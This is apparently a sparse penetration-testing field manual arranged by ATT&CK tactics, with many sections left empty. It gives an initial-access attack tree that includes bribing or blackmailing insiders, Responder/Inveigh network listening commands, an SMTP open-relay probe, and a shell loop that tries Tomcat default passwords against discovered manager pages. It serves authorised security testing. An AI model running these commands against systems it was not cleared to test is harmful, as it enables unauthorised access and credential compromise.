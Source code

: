 
# Security Testing Field Manual

Introduction and purpose.

# Operational Considerations

## Goals

List of possible goals.

## Operation Planning

```
1. Set goal(s): objectives to accomplish
2. Combine various tactics to achieve your operational goal(s)
3. Select appropriate tachniques (and choose suitable tools) to achieve your tactical goals
```

## Toolbox

# Tactical Objectives

## Ops-Sec Considerations ([PRE-ATT&CK: TA0021](https://attack.mitre.org/tactics/TA0021/))

## Attack Infrastructure ([PRE-ATT&CK: TA0022](https://attack.mitre.org/tactics/TA0022/))

## Getting Access ([ATT&CK: TA0001](https://attack.mitre.org/tactics/TA0001/))

*Tactical goal: get IP address in target's internal network*

Possible techniques (in a form of attack tree):

```
1. [OR] Social Engineering
1.1. [OR] Delivery of phishing email/message
1.1.1. Malicious link (T1192)
1.1.2. Malicious attachment (T1193)
1.1.3. Malicious social media message (T1194)
1.2. Drive-by compromise (T1189)
1.3. [OR] "Tasking" insider to plant connect-back implant
1.3.1. by fooling him (e.g. run it for me; print doc from this USB)
1.3.2. by bribing him
1.3.3. by blackmailing him
1.4. Fooling insider to reveal his credentials (T1078)
...

2. [OR] Breaching the perimeter/DMZ
2.1. Exploit Public-Facing Application (T1190)
2.2. Exploit remote access mechanism (T1133)
...

3. [OR] Proximity attacks
3.1. Hacking into wireless network
3.2. Using USB drive drops (T1091)
3.3. [OR] Breaching physical perimeter
3.3.1. Plant drop-in device and plug it into network
3.3.2. Plant USB device and plug it to existing machine
...

4. [OR] Exploiting Trusted Relationship (T1199)
4.1. [OR] Hack 3rd party entity that delivers service to target (T1195)
4.1.1. Open source Software supplier 
4.1.2. Commercial Software supplier 
4.1.3. Hack company that provides services to the target
4.1.4. Hack target's contractor worker
4.2. [AND] Hack "to be acquired" company
4.2.1. Get knowledge about near aquisitions
4.2.1. Hack the company that is going to be acquired 
4.3. [AND] Build trust relationship with the target
4.3.1. Work as a contractor for the target
4.3.2. Exploit the trust that was built
...
```

## Discovery ([ATT&CK: TA0007](https://attack.mitre.org/tactics/TA0007/))

*Tactical goal: Understand the target environment*

### Understanding the network

```
What's the network topology? Is it flat?
Where are egress points?
Where are "multi-homed" boxes?
```

## Credential Access ([ATT&CK: TA0006](https://attack.mitre.org/tactics/TA0006/))

*Tactical goal: Acquire valid set of credentials*

## Lateral Movement ([ATT&CK: TA0008](https://attack.mitre.org/tactics/TA0008/))

# Techniques (Discovery)

## Network Sniffing ([ATT&CK: T1040](https://attack.mitre.org/techniques/T1040/))

Sniffing:

```
```

Passive OS fingerprinting:

```
# Linux
screen -L -d -m responder -I eth0 -A -f

# Windows
Invoke-Inveigh -IP <current-box-ip> -ConsoleOutput Y -Inspect Y
```

# Techniques (Credential Access)

# Techniques (Lateral Movement)

## Vulnerable/misconfigured Remote Services (T1021 / T1210)

### SMTP service

Ports:

    TCP: 25,587,465

Implementations:

    https://en.wikipedia.org/wiki/List_of_mail_server_software#SMTP

Common misconfiguration: SMTP Open Relay

```
HELO ABC
MAIL FROM: foo@domain.com
RCPT TO: bar@domain.com
DATA
Testing for SMTP open relay issue.
.
QUIT
```

Noteworthy vulnerabilities:

```
```

## Vulnerable/misconfigured HTTP/HTTPS Services (T1021 / T1210)

### Apache Tomcat: default/weak credentials

```
Use auxiliary/scanner/http/tomcat_mgr_login
```

OR (if many different ports are used)
    ```
Prereq: Nmap scan results imported to msf

msf> services -S Coyote -c port -o /tmp/tomcat.csv
$ for i in $(cat /tmp/tomcat.csv | tr -d '"' | tr ',' ':'); do echo "http://$i/manager/html"; done > tomcat-urls.txt

$ wget https://raw.githubusercontent.com/netbiosX/Default-Credentials/master/Apache-Tomcat-Default-Passwords.mdown

$ cat Apache-Tomcat-Default-Passwords.mdown | tr -d ' ' | awk -F'|' '{print $2":"$3}' > PAYLOADS/tomcat-defaults.txt

$ while read line; do echo -n "$line : "; for i in $(cat PAYLOADS/tomcat-defaults.txt); do curl -H "Authorization: Basic $(echo -n "$i" | base64)" -s -o /dev/null -w "%{http_code}" --url "$line"; echo; done; done < tomcat-urls.txt > tomcats-results.txt
    ```
